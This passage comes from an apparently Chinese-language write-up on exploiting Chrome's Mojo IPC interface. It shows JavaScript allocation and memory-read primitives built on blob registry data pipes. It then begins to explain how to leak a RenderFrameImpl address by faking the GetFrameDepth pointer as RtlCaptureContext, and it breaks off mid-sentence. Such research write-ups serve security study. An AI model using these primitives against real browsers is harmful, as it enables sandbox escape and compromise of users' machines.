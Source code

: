 ```
      this.progressClient = new ProgressClient(this);
      blob_registry_ptr.registerFromStream("", "", size, this.pipe.consumer, this.progressClient.ptr).then((res) =&gt; `{`
         this.serialized_blob = res.blob;
      `}`);
      this.malloc = async function(data) `{`
         promise = new Promise((resolve, reject) =&gt; `{`
            this.writePromise = `{`resolve: resolve, reject: reject`}`;
         `}`);
         this.pipe.producer.writeData(data);
         this.pipe.producer.close();
         written = await promise;
         console.assert(written == data.byteLength);
      `}`

      this.free = async function() `{`
         await this.serialized_blob.blob.ptr.reset();
      `}`

      this.read = function(offset, length) `{`
         this.readpipe = Mojo.createDataPipe(`{`elementNumBytes: 1, capacityNumBytes: length`}`);
         this.serialized_blob.blob.readRange(offset, length, this.readpipe.producer, null);
         return new Promise((resolve) =&gt; `{`
            this.watcher = this.readpipe.consumer.watch(`{`readable: true`}`, (r) =&gt; `{`
               result = new ArrayBuffer(length);
               this.readpipe.consumer.readData(result);
               this.watcher.cancel();
               resolve(result);
            `}`);
         `}`);
      `}`

      this.readQword = async function(offset) `{`
         let res = await this.read(offset, 8);
         return (new DataView(res)).getBigUint64(0, true);
      `}`

      return this;
   `}`

   async function allocate(data) `{`
      let allocation = new Allocation(data.byteLength);
      await allocation.malloc(data);
      return allocation;
   `}`
   return allocate;
`}`
```

为了泄露`RenderFrameImpl`对象地址，我们可以将`GetFrameDepth`函数伪造为某一类特殊函数，首先能够正常被调用且返回，其次可以往我们能够控制的地方写入一些对象地址。一个在CFG绕过中的思想就可以用到这里了，我们将`GetFrameDepth`函数指针伪造为`RtlCaptureContext`，
